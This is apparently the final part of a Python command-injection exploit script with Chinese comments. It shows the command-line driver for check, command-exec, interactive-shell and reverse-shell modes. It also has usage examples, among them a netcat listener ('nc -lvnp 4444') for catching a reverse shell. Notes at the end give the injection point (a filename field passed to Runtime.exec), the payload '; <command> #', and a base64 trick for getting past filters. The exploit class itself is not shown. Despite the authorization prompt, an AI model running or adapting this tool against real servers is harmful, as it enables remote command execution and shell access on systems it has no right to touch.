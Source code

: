 ```python
    parser.add_argument('--port', type=int, default=80, help='Target port (default: 80)')
    parser.add_argument('--ssl', action='store_true', help='Use HTTPS')
    
    # 模式选择
    parser.add_argument('--mode', required=True, 
                       choices=['check', 'exec', 'shell', 'reverse'],
                       help='Exploitation mode')
    
    # 模式特定参数
    parser.add_argument('--command', help='Command to execute (for exec mode)')
    parser.add_argument('--lhost', help='Listener IP (for reverse mode)')
    parser.add_argument('--lport', type=int, default=4444, 
                       help='Listener port (for reverse mode)')
    
    args = parser.parse_args()
    
    # 安全确认
    print("\n🚨 SECURITY WARNING 🚨")
    print("You are about to run an exploit tool.")
    print("Ensure you have EXPLICIT AUTHORIZATION to test this target!")
    confirm = input("\nType 'I UNDERSTAND' to continue: ")
    
    if confirm != "I UNDERSTAND":
        print("Exploitation cancelled.")
        return
    
    print()
    
    # 运行exploit
    exploit = CommandInjectionExploit(args.target, args.port, args.ssl)
    
    kwargs = {
        'command': args.command,
        'lhost': args.lhost,
        'lport': args.lport,
    }
    
    exploit.run_exploit(args.mode, **kwargs)

if __name__ == "__main__":
    main()

"""
使用示例:

1. 检测漏洞:
   python exp_cmdi_001.py --target 192.168.1.100 --mode check

2. 执行单条命令:
   python exp_cmdi_001.py --target 192.168.1.100 --mode exec --command "whoami"

3. 交互式Shell:
   python exp_cmdi_001.py --target 192.168.1.100 --mode shell

4. 反向Shell:
   # 先在本地监听: nc -lvnp 4444
   python exp_cmdi_001.py --target 192.168.1.100 --mode reverse --lhost 192.168.1.10

技术细节:
- 注入点: POST /api/file/process {"filename": "..."}
- 漏洞代码: Runtime.exec("convert " + filename + " output.pdf")
- Payload: "; <command> #"
- 绕过: base64编码避免特殊字符过滤
```